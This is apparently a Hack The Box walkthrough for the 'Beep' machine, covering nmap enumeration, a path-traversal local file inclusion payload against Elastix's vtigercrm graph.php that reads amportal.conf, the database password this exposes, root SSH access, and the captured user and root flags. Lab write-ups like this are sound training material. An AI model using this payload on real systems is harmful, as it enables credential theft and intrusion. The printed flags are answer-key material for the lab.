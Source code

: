 
# HTB Walkthrough - Beep

**Machine:** Beep  
**Target IP:** 10.129.229.183

---

## Task 1  
**Which Linux distribution is the target machine running?**

```
nmap -sV -sC -oA nmap/OpenAdmin 10.129.23.96

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
```
![nmap](img/nmap.png)

**Answer:** `CentOS`

---

## Task 2  
**What version of TLS is the web application on TCP port 443 using?**

```
nmap --script ssl-enum-ciphers -p 443 10.129.229.183
TLSv1.0
```
![TLS_V](img/TLS_V.png)

**Answer:** `1.0`

---

## Task 3  
**What is the name of the software that's hosting a webserver on 443?**

```
http-title: Elastix - Login page
```
![webpage](img/webpage.png)

**Answer:** `Elastix`

---

## Task 4  
**Which Elastix endpoint is vulnerable to a Local File Inclusion?**

- 브라우저가 TLS 1.0을 지원하지 않아 Firefox로 전환.
- `about:config` 에서 `security.tls.version.min` 값을 `3` → `1` 로 수정.
- 취약점 정보: https://www.exploit-db.com/exploits/37637
![LFI](img/LFI.png)

```
LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

**Answer:** `/vtigercrm/graph.php`

---

## Task 5  
**What is the name of the FreePBX configuration file that contains the database configuration?**

LFI로 `/etc/amportal.conf` 파일 접근 가능. 아래와 같은 정보가 노출됨:  
![conf](img/conf.png)

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
AMPDBPASS=jEhdIekWmdjE
```

**Answer:** `amportal.conf`

---

## Task 6  
**What additional flag is needed when attempting to SSH as root to the target machine due to a "no matching key exchange method found" error?**

SSH 에러 발생:
```
Unable to negotiate with 10.129.67.153 port 22: no matching key exchange method found.
Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,...
```

SSH 접속 명령어 수정:
```
ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 root@10.129.67.153
```

**Answer:** `-oKexAlgorithms=+diffie-hellman-group14-sha1`  
![root](img/root.png)

---

## Submit User Flag  
**Location:** `/home/fanis/user.txt`  
![flag](img/flag.png)

```
cat /home/fanis/user.txt
c5b6bb43f6d2a1f1d84b698e0e32dcbf
```

**Answer:** `c5b6bb43f6d2a1f1d84b698e0e32dcbf`

---

## Submit Root Flag  
**Location:** `/root/root.txt`

```
cat /root/root.txt
18c457ee30e36677778fe36b29518c8d
```

**Answer:** `18c457ee30e36677778fe36b29518c8d`
